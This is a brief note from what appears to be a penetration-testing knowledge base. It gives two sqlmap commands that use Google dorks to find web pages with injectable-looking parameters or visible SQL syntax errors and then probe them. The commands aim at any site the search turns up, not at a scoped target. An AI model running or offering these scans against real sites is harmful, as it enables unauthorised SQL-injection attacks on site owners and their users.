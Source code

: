 # SQLMap

## Google Dork Endpoints

```
$ sqlmap -g "inurl:\"<parameter>=\" [site:website.com] ext:\(php \| aspx \| asp \| jsp \| js\) inurl:&?" --cookies="<google_cookies_session>" -f --random-agent
```

## Syntax Error SQL Dorks

```
$ sqlmap -g "inurl:\".php?id=1\" intext:\"You have an error in your SQL syntax\"" --cookies="<google_cookies_session>" --random-agent
```

---
## References

- [[Common SQL Parameters|Google Dorking: Common SQL Parameters]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x05 - Sensitive Data Exposure/Helpers/Dorks/Panels|Google Dorking: Panels]]

- [[SQL Syntax Errors|Google Dorking: SQL Syntax Errors]]